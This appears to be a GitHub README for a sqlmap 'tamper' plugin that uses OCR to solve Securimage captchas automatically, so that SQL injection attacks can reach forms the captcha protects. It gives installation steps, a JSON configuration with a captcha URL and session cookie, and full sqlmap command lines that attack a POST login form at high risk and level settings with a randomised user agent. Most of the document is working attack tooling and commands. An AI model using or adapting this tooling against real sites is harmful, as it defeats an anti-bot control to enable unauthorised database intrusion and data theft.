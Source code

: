 ## Securimage Tamper

SQLMap tamper for breaking securimage captcha!

![Images](https://github.com/Diskominfo-Kota-Serang/securimagetamper/blob/master/assets/README.png)

# Installation

Ubuntu

```
sudo apt-get install tesseract-ocr-eng imagemagick catimg
```

Then

```
pip install pytesseract
```

Put files into `sqlmap/tamper` or any related to sqlmap `tamper` folder

# Usages

Always make `--tamper` have spaces between `--tamper` and `securimage`. Examples: `--tamper securimage jsonpath`

Below is Full Usages of json object

```
{
  "images": "http://example.com/lib/securimage/securimage_show.php",
  "parameters": "captcha_code",
  "headers": { "Cookie": "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXXX" },
  "mode": "math",
  "config": {
    "convert": "-colorspace Gray -blur 3x1 -morphology Erode Diamond:1x8 -level 50%",
    "tesseract": "--psm 13 --oem 1 --dpi 150 -c tessedit_char_whitelist=1234567890x-+/"
  }
}
```

Note: Cookie should be manual inputed & never use automatically session


## securimage tamper have 3 modes

- ###### math

Automatically evaluate math expressions

- ###### character

Manually input character

- ###### easy

Automatically input easy recognize character

### Full Examples

```
sqlmap --url "http://examples.com/index.php" --data "username=a&password=a" --method POST --dbms=mysql --cookie "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXXX" --level 5 --risk 3 --random-agent -v 3 --tamper secureimage mysecurimagetamper.json
```

### Examples With Another Tamper

```
sqlmap --url "http://examples.com/index.php" --data "username=a&password=a" --method POST --dbms=mysql --cookie "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXXX" --level 5 --risk 3 --random-agent -v 3 --tamper=varnish,luanginx --tamper secureimage mysecurimagetamper.json
```
